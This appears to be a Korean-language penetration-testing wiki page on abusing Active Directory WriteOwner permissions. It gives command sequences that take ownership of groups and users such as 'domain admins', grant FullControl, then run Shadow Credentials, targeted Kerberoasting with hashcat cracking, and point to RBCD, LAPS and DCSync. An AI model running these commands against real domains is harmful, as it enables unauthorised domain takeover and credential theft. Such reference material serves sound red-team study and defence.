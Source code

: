 # WriteOwner

* 대상의 Owner (소유권자) 를 바꿔 대상 객체를 소유할 수 있게 된다. 객체의 소유권을 갖게 되면 WriteDACL 권한을 이용해 공격자 자신에게 대상을 상대로 한 특정한 권한을 부여할 수 있다. 이 권한을 바탕으로 추가 공격을 실행해 대상을 장악한다.
* 공식 액티브 디렉토리 권한
* 높은 권한의 유저 그룹이나 머신 계정 (예 - 도메인 컨트롤러)의 소유권 계정을 함부로 바꾸는 것은 위험하기에 실무에서 쓰이기에는 어려운 공격 방식이다.



<figure><img src="../../.gitbook/assets/writeowner-config.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/bh-writeowner.png" alt=""><figcaption></figcaption></figure>

### 악용 - 그룹

```
# OwnerEdit 
owneredit.py -action write -new-owner attacker -target victimGroup domain.com/user:pass 
owneredit.py -action write -new-owner abuse -target 'domain admins' choi.local/abuse:'Password123!'

# WriteMember - AddMember 
dacledit.py -action write -rights WriteMembers -principal attacker -target-dn target choi.local/user:pass
dacledit.py -action write -rights WriteMembers -principal abuse -target 'domain admins' choi.local/abuse:'Password123!'

# 이후 AddMember 등을 활용 
```

### 악용 - 유저

* 소유권 변경 -> WriteDACL 로 FullControl 권한 부여 -> FullControl 을 이용해 ShadowCredentials, Targeted Kerberoasting 등의 공격 실행

```
# OwnerEdit 
owneredit.py -action write -new-owner attacker -target victimGroup domain.com/user:pass 

# WriteDACL으로 FullControl DACL 부여 
dacledit.py -action write -rights FullControl -principal attacker -target targetUser domain.com/user:pass 

# FullControl 기반으로한 Shadow Credentials, Targeted Kerberoasting, 등. 

# ShadowCredentials 공격 
pywhisker.py -d domain.local -u controlledAccount -p pass --target targetAccount --action add

python3 gettgtpkinit.py -cert-pfx <pfx> -pfx-pass <pass> domain.com/target target.ccache
export KRB5CCNAME=target.ccache
python3 getnthash.py -key <AS-REP Encryption key> domain.com/target

# 공격자로서 추가했던 DeviceID만 삭제 
python3 pywhisker.py -d choi.local -u abuse -p 'Password123!' --target victim --action remove -D <DeviceID>

# 확인 
python3 pywhisker.py -d choi.local -u abuse -p 'Password123!' --target victim --action list

--- 

# Targeted Kerberoasting 
git clone https://github.com/ShutdownRepo/targetedKerberoast.git
python3 targetedKerberoast.py -v -d domain.com -u attacker -p pass --request-user targetUser --only-abuse
hashcat -a 0 -m 13100 <hash> <wordlist> 
```

### 악용 - 컴퓨터

* 소유권 변경 -> WriteDACL 로 FullControl 권한 부여 -> RBCD, Shadow Credentials, LAPS 등의 공격 실행

```
# OwnerEdit 
owneredit.py -action write -new-owner attacker -target victimGroup domain.com/user:pass 

# WriteDACL으로 FullControl DACL 부여 
dacledit.py -action write -rights FullControl -principal attacker -target targetUser domain.com/user:pass 

# FullControl 기반으로한 RBCD, Shadow Credentials, LAPS 등 
```

### 악용 - 도메인

* 소유권 변경 -> WriteDACL 로 FullControl 권한 부여 -> DCSync






